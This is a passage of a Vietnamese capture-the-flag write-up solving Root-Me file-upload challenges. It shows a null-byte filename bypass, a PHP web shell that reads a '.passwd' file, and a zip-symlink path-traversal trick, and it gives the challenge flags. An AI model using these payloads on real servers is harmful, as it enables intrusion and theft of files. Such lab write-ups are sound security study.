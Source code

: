 Mình có đổi tên file `shell.php.jpg` thì nhận nhận được `wrong file name` 

Bây giờ mình chi còn cách truyền `null byte` là kỹ thuật bỏ qua để dữ liệu sẽ được lọc theo cách khác,chấm dứt chuỗi.

Payload sẽ là:
```
filename="shell.php%00.jpg"
Content-Type: image/jpeg
```
Mình đã upload thành công,bây giờ tương tự như mấy bài trước mình cần tìm và đọc file `.passwd`
```Php
<?php
System("
    cat ../../../.passwd;
");
?>
```
>Flag : YPNchi2NmTwygr2dgCCF
# 6.File upload - ZIP(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch51/index.php](http://challenge01.root-me.org/web-serveur/ch51/index.php)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/334043103_572728071556238_6859132648529030180_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=wp_vuGzJw2UAX9dk5Ij&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQk3MalSekhK7KWRi0nDXt-MkkqSMqxhiqdoaNbN-vp8A&oe=6423DC73)

Đề bài là mình upload 1 file zip lên và đọc được file `index.php`
Sau khi mình up thử thì:
+ Server đổi tên của file zip
+ Không mở được file php(chỉ được các file document,jpeg)

Bài này sau khi xem qua writeup của 1 số trang thì mình thấy phải dùng `symlink`.

Symlink là một liên kết đến một tập tin hoặc thư mục khác trên cùng hệ thống tập tin, cho phép người dùng truy cập đến tập tin hoặc thư mục đó một cách dễ dàng và tiện lợi hơn.

Đầu tiên chúng ta cần tạo một liên kết để tới file `index.php`
```Shell
ln -s ../../../index.php test.txt
```
Ở đây mình tạo 1 symbolic link có tên là `test.txt` trỏ tới tập tin `../../../index.php`

Tiếp đến mình cần zip file:
```Shell
zip -y test.zip test.txt
```
Sau đấy mình thử up lên thì được bấm vào file thì mình nhận được flag:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333989424_1516768615497480_1715515493448679962_n.png?_nc_cat=102&ccb=1-7&_nc_sid=aee45a&_nc_ohc=5zA_8mxVpUkAX93gtm_&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdR5J2WJ58JG5hpVIlnE-_xpOwjRh0yHQM3cqsTVMdJO-Q&oe=6423F684)

>Flag : N3v3r_7rU5T_u5Er_1npU7
# 7.Level TwentyFour(Websec)
Link challenge : [https://websec.fr/level24/index.php](https://websec.fr/level24/index.php)
